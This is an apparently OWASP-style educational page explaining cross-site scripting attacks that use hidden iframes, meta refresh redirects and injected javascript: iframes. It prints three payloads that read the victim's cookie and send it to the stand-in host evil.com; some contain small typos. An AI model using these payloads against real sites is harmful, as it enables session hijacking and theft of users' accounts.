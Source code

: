 ### XSS Attack Using Frames

To exploit a [Cross Site Scripting]({{ site.baseurl }}/attacks/xss/) on a third-party web page at
example.com, the attacker could create a web page at evil.com, which the
attacker controls, and include a hidden iframe in the evil.com page. The
iframe loads the flawed example.com page, and injects some script into
it through the XSS flaw. In this example, the example.com page prints
the value of the "q" query parameter from the page's URL in the page's
content without escaping the value. This allows the attacker to inject
some JavaScript into the example.com page which steals the
browser-user's example.com cookie, and sends the cookie via a fake-image
request to evil.com (the iframe's src URL is wrapped for legibility):

```html
<iframe style="position:absolute;top:-9999px" src="http://example.com/↵
    flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">')</script>"></iframe>
```

The iframe is hidden off-screen, so the browser user won't have any idea
that they just "visited" the example.com page. However, this attack
is effectively the same as a conventional XSS attack, since the attacker
could have simply redirected the user directly to the example.com page,
using a variety of methods, including a meta element like this (again,
the meta element's URL is wrapped for legibility):

```html
<meta http-eqiv="refresh" content="1;url=http://example.com/↵
    flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">')</script>">
```

The only difference is that when using an iframe, the attacker can hide
the frame off-screen -- so the browser user won't have any idea that they
just "visited" example.com. When using a redirect to navigate
directly to example.com, the browser will display the example.com url in
the browser's address bar, and the example.com page in the browser's
window, so the browser user will be aware that they are visiting
example.com.

### Another XSS Attack Using Frames

To exploit the same [Cross Site Scripting]({{ site.baseurl }}/attacks/xss/) as above at example.com
(which prints the value of the "q" query parameter from the page's URL
in the page's content without escaping the value) the attacker could
create a web page at evil.com, which the attacker controls, that
includes a link like the following, and induce the user to click on the
link. This link injects an iframe into the example.com page by
exploiting the XSS flaw with the "q" query parameter; the iframe runs
some JavaScript to steal the browser-user's example.com cookie, and
sends it via a fake-image request to evil.com (the URL is wrapped for
legibility):

```html
http://example.com/flawed-page.html?=<iframe src="↵
    javascript:document.body.innerHTML=+'<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">'"></iframe>
```
